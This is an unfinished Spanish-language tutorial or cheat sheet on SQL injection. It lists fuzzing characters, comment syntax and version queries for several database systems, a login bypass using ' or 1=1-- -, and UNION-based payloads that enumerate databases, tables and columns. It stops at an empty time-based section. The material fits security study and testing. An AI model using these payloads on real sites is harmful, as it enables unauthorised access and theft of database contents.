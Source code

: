 # SQL Inyection \[in progress]

Este tipo de ataque le permite a un atacante el ejecutar querys en un campo vulnerable de la págian web, permitiendo ejecutar comandos en la base de datos que de otra manera no podría acceder. Esto permite el obtener información de la/las base/s de datos en el servidor, ejecución remota de comandos a través de otras vulnerabilidades o una denegación de servicio.



## **Indice**

* [Descubrimiento](sql-inyection-in-progress.md#descubrimiento)
  * [Comentarios](sql-inyection-in-progress.md#comentarios)
  * [Database Version](sql-inyection-in-progress.md#database-version)
* [Tipos](sql-inyection-in-progress.md#tipos)





## Descubrimiento

Lo primero será fuzzear los campos que se conecten con el backed para ver si responden de una manera inesperada al tratar de romper la query:

```
'
"
`
')
")
`)
'))
"))
`))
```

#### Comentarios

| Oracle   | Microsoft     | PostgreSQL    | MySQL         |
| -------- | ------------- | ------------- | ------------- |
| --coment | --coment      | --coment      | #comment      |
|          | /\*comment\*/ | /\*comment\*/ | --coment      |
|          |               |               | /\*comment\*/ |

#### Database Version

```sql
# Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

# Microsoft
SELECT @@version

# PostgreSQL
SELECT version()

# MySQL
SELECT @@version
```

#### Logical Error Operators

```clike
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```





## In-Band SQL Injection

En este tipo de inyección el atacante utiliza el **mismo canal** de comunicación que la base de datos para mostrar la data en la página, habiendo 2 tipos: Error based y Union Based.

### Error Based

Este tipo de inyeccion se aprovecha de los errores que muestra la base de datos al usuario, pudiendo **enumerar** información o en ocasiones toda la base de datos.

| Descripción                    | Query                      |
| ------------------------------ | -------------------------- |
| Enum columns with **ORDER BY** | ' order by 1,2,3-- -       |
| Enum columns with **UNION**    | ' union select 1,2,3,4-- - |

#### Explotación

En este caso hay una página que devuelve información de un usuario si se validan las credenciales de este, y como se puede apreciar si se pone una **'** después del usuario esto romperá la query:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Por lo que si le añadimos **'--** al usuario admin comentaremos la seccion de AND password='' y bypasearemos este campo:

![](<../.gitbook/assets/image (20).png>)

Esto solo se aplicaría para el usuario admin, pero si queremos hacerlo para todos podemos aplicar un operador lógico **' or 1=1-- -** para que devuelva información de todos:

![](<../.gitbook/assets/image (36).png>)



### Union Based

En este tipo de inyección es parecida a la error-based en la diferencia que en esta se puede obtener información de la base de datos actual (o de otras) extendiendo la query.

**MySQL, Microsoft PostgreSQL:**

<table><thead><tr><th width="247">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Enumerar Bases de datos</td><td>' UNION SELECT 1,table_schema FROM information_schema.schemata-- -</td></tr><tr><td>Enumerar DB::tablas</td><td>' UNION SELECT null, concat(table_schema,'::',table_name) FROM information_schema.columns-- -</td></tr><tr><td>Enumerar Columnas</td><td>' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='&#x3C;Table Name>' -- -</td></tr></tbody></table>

**Oracle**

<table><thead><tr><th width="252">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Listar tablas</td><td>' UNION SELECT null, table_name FROM all_tables-- -</td></tr><tr><td>Listar columnas</td><td>' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name = '&#x3C;Table Name>'-- -</td></tr></tbody></table>

## Blind SQL Injection

En este tipo de inyección no se obtiene un código de error por parte del servidor, sino que dependiendo de la respuesta del servidor ante la query que enviemos se podrá explotar correctamente, ya que a veces depende del código de estado que devuelva el servidor, si muestra o no información, o el tiempo que tarde en responder.

### **Time Based**



